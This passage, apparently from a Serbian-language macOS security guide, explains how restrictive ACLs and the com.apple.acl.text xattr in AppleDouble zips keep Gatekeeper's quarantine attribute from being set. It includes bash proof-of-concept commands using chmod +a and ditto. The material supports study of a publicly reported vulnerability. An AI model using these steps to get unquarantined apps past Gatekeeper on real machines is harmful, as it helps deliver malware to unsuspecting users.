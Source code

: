 ### writeextattr ACL

Ova ACL sprečava dodavanje `xattrs` datoteci

```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
ls -le /tmp/test
ditto -c -k test test.zip
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr

cd /tmp
echo y | rm test

# Decompress it with ditto
ditto -x -k --rsrc test.zip .
ls -le /tmp/test

# Decompress it with open (if sandboxed decompressed files go to the Downloads folder)
open test.zip
sleep 1
ls -le /tmp/test
```

### **com.apple.acl.text xattr + AppleDouble**

**AppleDouble** format datoteka kopira datoteku zajedno sa njenim ACE-ovima.

U [**izvornom kodu**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html) moguće je videti da se ACL tekstualna reprezentacija čuva unutar xattr-a nazvanog **`com.apple.acl.text`** i postavlja se kao ACL u dekompresovanoj datoteci. Dakle, ako ste kompresovali aplikaciju u zip datoteku sa **AppleDouble** formatom datoteke sa ACL-om koji sprečava pisanje drugih xattr-ova u nju... karantinski xattr nije postavljen u aplikaciju:

Proverite [**originalni izveštaj**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) za više informacija.

Da biste replicirali ovo, prvo morate dobiti tačan ACL string:

```bash
# Everything will be happening here
mkdir /tmp/temp_xattrs
cd /tmp/temp_xattrs

# Create a folder and a file with the acls and xattr
mkdir del
mkdir del/test_fold
echo test > del/test_fold/test_file
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" del/test_fold/test_file
ditto -c -k del test.zip

# uncomporess to get it back
ditto -x -k --rsrc test.zip .
ls -le test
```
